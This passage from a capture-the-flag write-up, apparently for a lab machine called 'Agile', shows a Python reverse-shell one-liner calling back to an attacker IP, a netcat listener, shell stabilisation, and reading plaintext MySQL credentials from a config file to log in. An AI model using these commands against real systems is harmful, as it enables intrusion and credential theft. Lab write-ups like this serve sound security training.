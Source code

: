 `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.133",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")`

On our listener:

```bash
$ nc -nvlp 8888        
listening on [any] 8888 ...
connect to [10.10.14.133] from (UNKNOWN) [10.10.11.203] 55440
$ whoami
whoami
www-data
```

We have a shell, but it is still a "dumb" shell. Features such as autocomplete or interactive binaries such as vim will not work well, so we need to stabilize the shell. There are many ways to do this, my favorite being the use of `script`:

```sh
$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
(venv) www-data@agile:/app/app$
```

From here we background the session with ctrl+Z, and type `stty raw -echo; fg`. The fg will put us back into the rev shell session, where we press enter a 2nd time and our shell has been stabilized.

```bash
(venv) www-data@agile:/app/app$ ^Z
zsh: suspended  nc -nvlp 8888
                                                                                                                                                         
┌──(kali㉿kali)-[~/Documents/Agile]
└─$ stty raw -echo; fg 
[1]  + continued  nc -nvlp 8888

(venv) www-data@agile:/app/app$
```

## Lateral Movement
### Accessing the SQL database

After brief enumeration, I find an interesting json file in the base /app folder containing the SQL credentials:

```
(venv) www-data@agile:/app$ cat config_prod.json 
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```
We see credentials as `superpassuser:dSA6l7q*yIVs$39Ml6ywvgK`. Since our shell has been stabilized, we can call an interactive mysql session. This would have failed if we had tried earlier.
```
(venv) www-data@agile:/app$ mysql -u superpassuser -p                    
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 392
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```